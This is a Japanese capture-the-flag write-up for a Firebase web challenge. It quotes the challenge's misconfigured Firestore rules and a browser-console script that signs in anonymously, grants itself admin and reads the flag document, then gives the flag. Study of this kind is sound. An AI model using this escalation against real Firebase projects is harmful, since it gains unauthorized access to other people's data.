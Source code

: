 # Problem on fire:web:200pts
たいへん！作問作業が炎上しちゃったよ！みんなで力を合わせてなんとかしよう！  
[https://challenge-on-fire.web.app/](https://challenge-on-fire.web.app/)  
[challenge_on_fire.tar.gz](challenge_on_fire.tar.gz)  

# Solution
アクセスすると謎のサイトが動いていた。  
Welcome to Firebase Hosting  
[site.png](site/site.png)  
タイトルからもわかる通りFirebase系のWeb問題のようだ。  
おそらく権限周りの脆弱性であることが容易に想像がつく。  
配布されたファイルのrulesを見ると以下のようであった。  
```
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{uid} {
      // 自分のユーザー情報を書き込めるのは自分のみ
      allow read, create: if request.auth.uid == uid && !request.resource.data.admin;
      // 一度作ったユーザー情報を編集できるのはadminだけ
      allow update: if request.resource.data.admin;
    }
    match /flags/flag {
      // flagを読めるのはadminだけ
      allow read: if get(/databases/$(database)/documents/users/$(request.auth.uid)).data.admin == true;
    }
  }
}
```
adminのみがフラグを読むことができ、自分のユーザ情報を書き込めるためadminになってしまえばよい。  
ページからパクって編集した以下のjsをブラウザのコンソールから実行する。  
```js
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const token = await user.getIdToken();
const uid = user.uid;
const db = firebase.firestore();
await db.collection('users').doc(uid).set({admin: true});
const flag = await db.collection('flags').doc('flag').get();
this.flag = flag.get('value');
```
![flag.png](images/flag.png)  
flagが得られた。  

## TSGLIVE{git_fire_is_also_useful_when_the_project_is_on_fire}